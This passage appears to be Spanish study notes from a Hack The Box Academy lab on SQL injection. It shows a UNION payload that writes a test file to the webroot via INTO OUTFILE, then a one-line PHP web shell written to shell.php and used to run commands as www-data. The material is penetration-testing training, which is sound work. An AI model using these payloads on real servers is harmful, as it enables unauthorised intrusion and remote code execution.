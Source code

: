 <br>

El payload del UNION seria de la siguiente manera.

<br>

    cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

<br>

No vemos ningun error en la pagina, lo que indica que la consulta se realizo correctamente. Comprobando el archivo proof.txr en el webroot, vemos que efectivamente existe:

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

<br>

NOTA: Vemos la caena que descartamos junto con '1', '3' y '4'. Esto se debe a que todo el resultado de la consulta UNION se escribiro en el archivo, para una salida pas limpia podemos usar "" en lugar de numeros.

<br>

## ESCRIBIENDO UNA WEBSHELL ##

<br>

Habiendo confirmado que tenemos permisos de escritura, podemos continuar y escribir un web shell de PHP en la carpeta webroot. Podemos escribir el siguiente webshell PHP para poder ejecutar comandos directamente en el servidor back-end.

<br>

    <?php system($_REQUEST[0]); ?>

<br>

Podemos reutilizar nuestro anterioe UNION y cambiar la cadena del anterior con el nombre de archivo de shell.php

<br>

    cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

<br>

Una vez mas, no vemos ningun error, lo que significa que la escritura de archivos posiblemente funciono. Esto se puede verificar navegando a la ruta /shell.php y ejecutar comandos a traves del parametro 0, con "?0=id" en nuestra URL.

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

<br>

La salida del comando id nos confirma que tenemos ejecucion de codigo y lo estamos usando como el usuario www-data.


